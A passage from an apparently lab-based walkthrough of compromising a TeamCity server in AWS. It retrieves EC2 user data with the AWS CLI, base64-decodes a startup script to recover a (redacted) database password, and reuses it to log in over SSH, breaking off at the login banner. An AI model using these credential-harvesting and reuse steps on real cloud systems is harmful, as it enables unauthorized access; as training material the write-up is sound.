 ![](pwn-teamcity-in-the-cloud-1.png)

Let's see if any EC2 user data has been configured
```
└─$ aws ec2 describe-instance-attribute --instance-id 'i-07f019d0d51e79c4e' --attribute userData
{
    "InstanceId": "i-07f019d0d51e79c4e",
    "UserData": {
        "Value": "<REDACTED>"
    }
}

```

It returns base64 encoded user data, let's decode it. We found credentials for the `teamcity` database user

```
└─$ echo "<REDACTED>" | base64 -d
--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
mysqldump -u teamcity -p<REDACTED> -d teamcity > /root/teamcity-backup-latest.sql
--//--

```

We can try the password to log into TeamCity as admin (which failed) or over SSH with the root user (also failed). Many TeamCity installation guides specify creating a system user, so we can try to login to the system over SSH with `teamcity` user
```
└─$ ssh teamcity@10.1.20.225                                                    
The authenticity of host '10.1.20.225 (10.1.20.225)' can't be established.
ED25519 key fingerprint is SHA256:2OM8qregSoGHyuBUsnGGGKXVqFEU8HzA0njUAPzDt1g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.20.225' (ED25519) to the list of known hosts.
teamcity@10.1.20.225's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.19.0-1028-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Sep 24 19:19:07 UTC 2025

  System load:  0.076171875        Processes:             108
  Usage of /:   47.5% of 19.20GB   Users logged in:       0
  Memory usage: 39%                IPv4 address for ens5: 10.1.20.225
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
```